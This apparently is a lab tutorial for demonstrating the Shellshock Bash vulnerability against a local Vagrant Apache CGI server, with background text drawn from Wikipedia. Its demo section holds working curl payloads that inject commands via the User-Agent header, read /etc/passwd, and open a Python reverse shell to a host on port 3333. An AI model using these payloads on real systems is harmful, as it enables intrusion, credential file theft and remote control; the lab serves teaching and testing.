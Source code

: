 # Getting started on demoing a Shellshock vulnerability: 

## Setup
  1) Set up a vagrant box using this vagrant file. This will install Apache and forward to port 8080.. 
  2) Create a cgi file in /usr/lib/cgi-bin. It can be as simple as html content type "hello world."  
  3) Test the following vulnerabilities against 'http://localhost:8080/cgi-bin/shellshock_test.sh' 


## Demoing the vulnerability
### To test via the command line: 
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"

(If you see "vulnerable" you need to update bash. Otherwise, you should be good to go.)


#### Via curl: 

#### To just echo data:
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; echo 'hi world of exploits'" http://localhost:8080/cgi-bin/shellshock_test.sh

#### To copy passwords: 
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:8080/cgi-bin/shellshock_test.sh

#### To create a reverse shell:
curl -H "UserAgent: () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.2\",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" http://localhost:8080/cgi-bin/shellshock_test.sh


## More information about Shellshock: 
Source: https://en.wikipedia.org/wiki/Shell_shock

This is a major vulnerability that occurs when specific characters are included as part of a variable definition in Bash.

Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition. 

If the characters "{ :;};" are included as the function definition, any arbitrary code that is inserted AFTER that definition is processed. This isn't supposed to happen.




### Scale of the problem: 

It looks like basically every version of Bash through version 4.3 is affected by this vulnerability.


### Why is CGI vulnurable? 

The Common Gateway Interface (CGI) vector (an interface between a web server and executables that produce dynamic content) has received the bulk of the focus from attackers thus far. However, the reach of the BASH Shellshock bug doesn’t stop at web servers. Any application that relies on user-controlled data to set OS-level environment variables and then invokes the shell from that same context can trigger the vulnerability. In other words, web applications relying on a specific type of user input can be manipulated to make clients (i.e., consumers) vulnerable to attack. 

Because CGI relies on environment variables set in the header which are later interpreted to generate dynamic content, it is vulnerable to this kind of attack. 

### More about Bash: 

In Unix-based operating systems, and in other operating systems that Bash supports, each running program has its own list of name/value pairs called environment variables. When one program starts another program, it provides an initial list of environment variables for the new program.[21]Separately from these, Bash also maintains an internal list of functions, which are named scripts that can be executed from within the program.[22]Since Bash operates both as a command interpreter and as a command, it is possible to execute Bash from within itself. When this happens, the original instance can export environment variables and function definitions into the new instance.[23] Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition. The new instance of Bash, upon starting, scans its environment variable list for values in this format and converts them back into internal functions. It performs this conversion by creating a fragment of code from the value and executing it, thereby creating the function "on-the-fly", but affected versions do not verify that the fragment is a valid function definition.[24] Therefore, given the opportunity to execute Bash with a chosen value in its environment variable list, an attacker can execute arbitrary commands or exploit other bugs that may exist in Bash's command interpreter.

When a web server uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the request to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request.[6]
Security documentation for the widely used Apache web server states: "CGI scripts can ... be extremely dangerous if they are not carefully checked."[29] and other methods of handling web server requests are often used. There are a number of online services which attempt to test the vulnerability against web servers exposed to the Internet.
